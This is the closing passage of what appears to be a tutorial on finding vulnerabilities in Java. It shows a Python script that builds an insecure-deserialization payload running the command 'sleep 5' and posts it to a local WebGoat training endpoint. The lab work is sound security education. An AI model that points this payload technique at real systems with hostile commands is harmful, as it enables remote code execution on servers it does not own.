 ```py
def GenerateDeserializationPayload(command):
	payload = subprocess.check_output(["java", "-cp", "lib/slf4j-api-1.7.29.jar:.", "DeserializationExperiment", "generate_payload", command], cwd = "./DeserializationExperiment/", stderr=subprocess.DEVNULL)
	return payload.decode("utf-8").strip()

def ExploitDeserialization(session, payload):
	response = session.post(
		url = "http://localhost:8000/WebGoat" + "/InsecureDeserialization/task",
		data = {"token" : payload}
		)
	return response.text

deserialization_payload = GenerateDeserializationPayload("sleep 5")
deserialization_result = ExploitDeserialization(session, deserialization_payload);
print(deserialization_result)
```

And the result:

![deserializationexploit](../images/2021-06-23-Vuln_discovery_Java/deserializationexploit.png)

## Summary
We tackled 4 different vulnerabilities arising from insecure coding in Java. Hope you find this tutorial useful.
